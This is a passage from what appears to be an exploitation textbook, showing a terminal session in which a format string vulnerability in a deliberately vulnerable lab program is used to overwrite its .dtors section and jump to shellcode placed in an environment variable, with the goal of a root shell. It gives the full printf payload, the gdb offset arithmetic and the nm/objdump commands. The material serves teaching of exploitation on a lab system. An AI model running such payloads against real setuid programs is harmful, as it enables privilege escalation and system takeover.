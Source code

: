                        CONTENTS, READONLY, DEBUGGING
    29 .debug_str      000000bb 00000000 00000000 00000bad 2**0
                       CONTENTS, READONLY, DEBUGGING
    30 .debug_ranges   00000048 00000000 00000000 00000c68 2**3
                       CONTENTS, READONLY, DEBUGGING
reader@hacking:~/booksrc $
</pre>

Another interesting detail about the _.dtors section_ is that it is included in all binaries compiled with the _GNU C compiler_, regardless of whether any functions were declared with the destructor attribute. This means that the vulnerable format string program, _fmt_vuln.c_, must have a _.dtors section_ containing nothing. This can be inspected using `nm` and `objdump`.

<pre style="color: white;">
reader@hacking:~/booksrc $ nm ./fmt_vuln | grep DTOR
08049694 d __DTOR_END__
08049690 d __DTOR_LIST__
reader@hacking:~/booksrc $ objdump -s -j .dtors ./fmt_vuln

./fmt_vuln: file format elf32-i386

Contents of section .dtors:
8049690 ffffffff 00000000 ........
reader@hacking:~/booksrc $
</pre>

As this output shows, the distance between __\_\_DTOR_LIST\_\___ and __\_\_DTOR_END\_\___ is only four bytes this time, which means there are no addresses between them. The object dump verifies this.

Since the _.dtors section_ is writable, if the address after the _0xffffffff_ is overwritten with a memory address, the program’s execution flow will be directed to that address when the program exits. This will be the address of __\_\_DTOR_LIST\_\___ plus four, which is _0x08049694_ (which also happens to be the address of __\_\_DTOR_END\_\___ in this case).

If the program is _suid root_, and this address can be overwritten, it will be possible to obtain a root shell.

<pre style="color: white;">
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./fmt_vuln
SHELLCODE will be at 0xbffff9ec
reader@hacking:~/booksrc $
</pre>

Shellcode can be put into an environment variable, and the address can be predicted as usual. Since the program name lengths of the helper program _getenvaddr.c_ and the vulnerable _fmt_vuln.c_ program differ by two bytes, the shellcode will be located at _0xbffff9ec_ when _fmt_vuln.c_ is executed. This address simply has to be written into the _.dtors section_ at _0x08049694_ (shown in bold below) using the format string vulnerability. In the output below the short write method is used.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xf9ec - 0xbfff
$2 = 14829
(gdb) quit
reader@hacking:~/booksrc $ nm ./fmt_vuln | grep DTOR
<strong><em>08049694</em></strong> d __DTOR_END__
08049690 d __DTOR_LIST__
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x96\x96\x04\x08\x94\x96\x04\
x08")%49143x%4\$hn%14829x%5\$hn
The right way to print user-controlled input:
????%49143x%4$hn%14829x%5$hn
The wrong way to print user-controlled input:
????
b7fe75fc
[*] test_val @ 0x08049794 = -72 0xffffffb8